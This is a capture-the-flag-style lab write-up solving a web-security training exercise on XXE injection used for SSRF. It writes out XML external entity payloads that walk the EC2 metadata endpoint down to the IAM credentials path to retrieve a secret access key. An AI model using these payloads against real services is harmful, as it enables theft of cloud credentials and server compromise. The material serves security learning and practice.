





# Exploiting XXE to perform SSRF attacks

## Lab #2: Exploiting XXE to perform SSRF attacks

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> 
> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
> 
> To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

Check stock request



Injecting XXE

```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/">] >
```

Returns an error message "Invalid product ID: latest"



Adding a random path to the url, returns non zero code.



Adding `/latest` as new path returns another error message "Invalid product ID: meta-data". I can assume the first payload return a path.

```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/">] >
```

Combining the path to `/latest/meta-data/`
```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data">] >
```




It ends up with:

```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">] >
```

